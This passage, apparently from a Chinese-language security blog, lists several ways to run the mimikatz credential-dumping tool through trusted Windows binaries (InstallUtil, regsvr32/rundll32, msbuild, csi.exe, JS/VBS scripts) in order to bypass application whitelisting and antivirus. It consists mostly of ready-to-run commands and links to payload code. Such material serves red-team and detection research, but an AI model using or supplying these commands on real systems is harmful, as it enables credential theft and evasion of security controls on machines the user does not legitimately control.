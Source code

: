 方法2：通过InstallUtil.exe

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:PELoader.exe PELoader.cs
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U PELoader.exe
```

参考：

《利用白名单绕过360实例》

《利用白名单绕过限制的更多测试》

方法3：通过regsvr32.exe

https://gist.githubusercontent.com/subTee/c3d5030bb99aa3f96bfa507c1c184504/raw/24dc0f93f1ebdda7c401dd3890259fa70d23f75b/regsvr32-katz.cs

将mimikatz封装到dll中，通过regsvr32传入参数运行mimkatz

```
rundll32 katz.dll,EntryPoint log coffee exit
```

参考：

《Code Execution of Regsvr32.exe》

方法4：通过msbuild.exe

下载xml文件，保存为a.xml：

https://github.com/3gstudent/msbuild-inline-task/blob/master/executes%20mimikatz.xml

cmd：

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe executes a.xml
```

参考：

《Use MSBuild To Do More》

方法5：通过csi.exe

```
"C:\Program Files (x86)\MSBuild\14.0\Bin\csi.exe" c:\test\katz.csx
```

参考：

《Study Notes Weekly No.4(Use tracker to load dll &amp; Use csi to bypass UMCI &amp; Execute C# from XSLT file)》

方法6：通过js/vbs脚本

https://gist.github.com/subTee/5c636b8736530fb20c3d

https://gist.github.com/subTee/b30e0bcc7645c790fcd993cfd0ad622f

参考：《利用JS加载.Net程序》

